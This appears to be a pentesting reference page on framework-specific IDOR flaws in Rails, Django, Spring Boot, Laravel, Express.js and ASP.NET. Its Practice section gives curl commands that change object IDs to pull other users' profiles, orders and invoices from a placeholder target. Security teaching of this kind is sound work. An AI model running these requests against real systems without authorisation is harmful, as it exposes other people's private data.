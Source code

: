 ```yaml
---
title: Framework Specific IDOR Vulnerabilities Guide
description: Explore framework-specific IDOR vulnerabilities and exploitation techniques
  for popular frameworks like Rails, Django, and more.
keywords:
- IDOR vulnerabilities
- framework-specific IDOR
- authorization flaws
- web framework security
- Rails IDOR
- Django IDOR
- Spring Boot IDOR
- Laravel IDOR
- Express.js IDOR
---
```


# Framework Specific IDOR

## Context

Insecure Direct Object References (IDOR) occur when an application exposes a reference to an internal object, such as a file, database record, or key, through user input without proper access controls. This document focuses on exploiting IDOR vulnerabilities unique to specific web frameworks, leveraging implicit behaviors and common misconfigurations. 

## Theory

### Framework-Specific IDOR Vulnerabilities

IDOR vulnerabilities can manifest uniquely across different web frameworks due to varying design patterns and default behaviors. These vulnerabilities often arise from the framework's routing, Object-Relational Mapping (ORM), or access control patterns, potentially leading to unintended trust or shortcuts in object access logic. Developers, relying on the framework's default configurations, might inadvertently omit explicit authorization checks, making applications prone to unauthorized data access.

### Common Framework Patterns Leading to IDOR

Attackers typically exploit IDOR by manipulating object references within requests, thereby accessing unauthorized resources. Common implementation flaws occur when developers use autogenerated routes or RESTful controllers without enforcing per-object authorization. Likewise, mass assignment or model binding can unintentionally expose sensitive fields to unauthorized users.

### Framework-Specific Examples

Frameworks such as Rails, Django, Spring Boot, and others introduce specific IDOR risks:

- **Rails:** Frequently, missing 'before_action :authorize' in controllers leads to access vulnerabilities.
- **Django:** Use of generic views without object-level permission checks can expose objects.
- **Spring Boot:** Repository endpoints might not have method-level security, leading to unauthorized access.
- **Laravel:** Route model binding without enforcing policies leaves endpoints negligent of authorization.
- **Express.js:** Exposing MongoDB IDs directly in routes without validation opens up IDOR risks.
- **ASP.NET:** Default scaffolding often lacks customized authorization attributes, which should be applied to restrict access.
- **PHP/Flask/Node.js:** Manual routing without sufficient access controls leaves gaps for exploitation.

## Practice

Below are practical steps to exploit IDOR vulnerabilities across different web frameworks.

### Exploiting Rails IDOR via Missing Authorization Filter

- Send a crafted request that accesses another user's data by altering the user ID in the URL:
  ```bash
  curl -b session=VALID_SESSION_COOKIE https://target/users/2.json
  ```
- Observe how the lack of authorization results in sensitive data access.

### Exploiting Django IDOR via Generic View

- Manipulate the user ID in the profile endpoint to access different profiles:
  ```bash
  curl -b sessionid=VALID_SESSION_COOKIE https://target/profile/3/
  ```
- Gaining access to unauthorized profiles without object-level permission.

### Spring Boot Repository Endpoint IDOR

- Directly query the repository endpoint for user records by changing user IDs:
  ```bash
  curl -H 'Authorization: Bearer VALID_JWT' https://target/api/users/5
  ```
- Obtain sensitive data due to missing restrictions on repository access.

### Laravel Route Model Binding IDOR

- Modify order IDs in the request to access other users' orders:
  ```bash
  curl -b laravel_session=VALID_SESSION_COOKIE https://target/orders/10
  ```
- Identifying lack of policy enforcement leading to order disclosure.

### Express.js IDOR via Direct Object Reference

- Supply different MongoDB ObjectIDs to access various documents:
  ```bash
  curl -b session=VALID_SESSION_COOKIE https://target/api/documents/abc123
  ```
- Unauthorized document access achieved by ObjectID manipulation.

### ASP.NET Scaffolding IDOR

- Request invoice details by changing the user ID using scaffolded routes:
  ```bash
  curl -b .AspNetCore.Cookies=VALID_COOKIE https://target/Invoices/Details/7
  ```
- Exploiting default routes to access sensitive invoice data unauthenticated.

### PHP/Flask/Node.js Manual Routing IDOR

- Alter user IDs within manually exposed API endpoints:
  ```bash
  curl -b session=VALID_SESSION_COOKIE https://target/api/user/4
  ```
- Exploiting insufficient manual access checks to acquire other users' data.

## Tools

- **curl**
- **Burp Suite**
- **Postman** 

Successful exploitation of IDOR vulnerabilities requires recognition of framework-specific patterns that lead to unauthorized resource access due to omitted checks or insufficiently customized authorizations.